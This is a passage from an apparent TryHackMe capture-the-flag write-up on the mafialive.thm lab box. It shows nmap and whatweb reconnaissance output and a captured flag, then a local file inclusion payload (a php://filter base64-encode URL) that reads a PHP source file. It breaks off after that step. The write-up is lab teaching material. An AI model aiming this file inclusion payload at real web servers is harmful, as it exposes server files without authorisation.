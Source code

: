 TryHackme

```
└─# nmap -sV -A --min-rate 5000 $ip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wavefire
|_http-server-header: Apache/2.4.29 (Ubuntu)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)


```
found nothig i re-scan 
```
└─# sudo nmap -sS -sV -sC $ip -vv
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPrwb4vLZ/CJqefgxZMUh3zsubjXMLrKYpP8Oy5jNSRaZynNICWMQNfcuLZ2GZbR84iEQJrNqCFcbsgD+4OPyy0TXV1biJExck3OlriDBn3g9trxh6qcHTBKoUMM3CnEJtuaZ1ZPmmebbRGyrG03jzIow+w2updsJ3C0nkUxdSQ7FaNxwYOZ5S3X5XdLw2RXu/o130fs6qmFYYTm2qii6Ilf5EkyffeYRc8SbPpZKoEpT7TQ08VYEICier9ND408kGERHinsVtBDkaCec3XmWXkFsOJUdW4BYVhrD3M8JBvL1kPmReOnx8Q7JX2JpGDenXNOjEBS3BIX2vjj17Qo3V
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKhhd/akQ2OLPa2ogtMy7V/GEqDyDz8IZZQ+266QEHke6vdC9papydu1wlbdtMVdOPx1S6zxA4CzyrcIwDQSiCg=
|   256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBE3FV9PrmRlGbT2XSUjGvDjlWoA/7nPoHjcCXLer12O
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
In the email support contact i found : `support@mafialive.thm`
also i use `whatweb`
```
└─# whatweb $ip
http://10.10.163.188 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[support@mafialive.thm], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.163.188], JQuery, Script, Title[Wavefire]
```
I replace the hostname on my `/etc/hosts`
` thm{f0und_th3_r1ght_h0st_n4m3} `
Now go to the domain.
found : `http://mafialive.thm/robots.txt and /test.php`
when i click on the button. i got redirect on `http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`
J'ajoute le php filter: `http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php`
I got a base64
```
┌──(root㉿1337)-[/home/bloman]
└─# base=PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==  
                                                                
┌──(root㉿1337)-[/home/bloman]
```